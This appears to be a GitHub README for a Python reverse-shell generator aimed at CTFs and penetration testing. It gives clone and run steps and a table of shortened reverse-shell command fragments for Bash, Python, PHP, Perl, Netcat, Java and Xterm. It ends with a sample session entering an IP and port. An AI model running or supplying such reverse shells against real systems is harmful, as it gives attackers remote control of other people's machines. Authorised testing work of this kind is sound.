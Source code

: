 # 🔥 Reverse-shell-generator 
## 🚀 Installation
<b>You can use the Reverse Shell Generator script by cloning the repository:</b>
```python
git clone https://github.com/CyberKRY/reverse-shell-generator.git
cd reverse-shell-generator
```
<b>It is recommended to run the script with Python 3 installed on your system. It is cross-platform and does not require any additional libraries.</b>

## Quick Start:
```python
python3 shellgen.py
```
## ✨ Features
<b>
  
* Supports seven languages: Bash, Python, PHP, Perl, Netcat, Java and Xterm.

* Instant generation: Simply select a number, IP address and port to create a reverse shell that is ready to use.

* Colourful CLI interface: Stylish and easy to read thanks to the ANSI layout.

* Minimalism: Lightweight with no dependencies; runs instantly.

* Versatility: Great for CTF, penetration testing, training and automation.
</b>

## 📥 Supported Shells
| № | Язык   | Команда                                |
| - | ------ | -------------------------------------- |
| 1 | Bash   | `bash -i >& /dev/tcp/...`              |
| 2 | Python | `python3 -c 'import socket,...'`       |
| 3 | PHP    | `php -r '$sock = fsockopen(...); ...'` |
| 4 | Perl   | `perl -e 'use Socket; ...'`            |
| 5 | Netcat | `nc -e /bin/sh ...`                    |
| 6 | Java   | `Runtime.getRuntime().exec(...)`       |
| 7 | Xterm  | `xterm -display IP:PORT`               |

## Conclusion:
```python
Enter the Reverse Shell number: 2
Enter IP address: 10.8.0.1
Enter port number: 4444
```
## ⚠️ Warning
> <b>This tool is intended solely for training purposes or legal testing. Only use it in systems where you have authorisation.</b>


<b>Thank you very much for your interest in my robot. This is one of the first scripts I have created, and I will create more and better ones in future. Thank you again.</b>
